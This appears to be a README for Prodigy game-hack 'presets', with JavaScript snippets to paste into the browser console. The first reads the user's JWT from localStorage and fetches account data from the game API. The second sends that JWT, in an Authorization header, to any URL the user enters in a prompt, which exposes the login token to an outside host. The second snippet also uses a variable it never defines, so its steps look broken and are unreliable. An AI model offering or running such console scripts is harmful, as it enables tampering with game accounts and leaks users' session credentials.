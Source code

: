 # Since that these hacks are stored from a particular datafile, you can use any data you want!
## Because of this, you can load your data, using the below script:
```js
function parseJwt(token){var base64Url=token.split('.')[1];var base64=base64Url.replace(/-/g,'+').replace(/_/g,'/');var jsonPayload=decodeURIComponent(atob(base64).split('').map(function(c){return'%'+('00'+c.charCodeAt(0).toString(16)).slice(-2)}).join(''));return JSON.parse(jsonPayload)};let userID=parseJwt(localStorage.JWT_TOKEN).content.userID
let playerdata=await(await fetch(`https://api.prodigygame.com/game-api/v1/character/${userID}?isMember=0&userID=${userID}`,{method:'GET',credentials:'same-origin',headers:{'Authorization':localStorage.JWT_TOKEN,},})).json();console.log(JSON.stringify(playerdata))
```
## So if you have an account that is already hacked, you can submit a preset in a pull request, and other people will be able to get your inventory, pets, level, stars, and more!

## To use a preset: 
#### Go to your selected preset file
#### Click the "raw" button, it should take you to a plain text file.
#### Copy and paste the code below into your Chrome console on Prodigy:
```js
function parseJwt(token){var base64Url=token.split('.')[1];var base64=base64Url.replace(/-/g,'+').replace(/_/g,'/');var jsonPayload=decodeURIComponent(atob(base64).split('').map(function(c){return'%'+('00'+c.charCodeAt(0).toString(16)).slice(-2)}).join(''));return JSON.parse(jsonPayload)};let userID=parseJwt(localStorage.JWT_TOKEN).content.userID
await(await fetch(prompt('Put your link below:'),{method:'POST',credentials:'same-origin',headers:{"content-type":"application/json",'Authorization':localStorage.JWT_TOKEN,},body:JSON.stringify({userID:userID,data:JSON.stringify(playerdata)}),})).text()
```
#### Copy and paste the raw text file URL into the resulting box that appears.
#### Reload your page.

### Note: This also contains their look, so you will have to change your avatar to your desired look.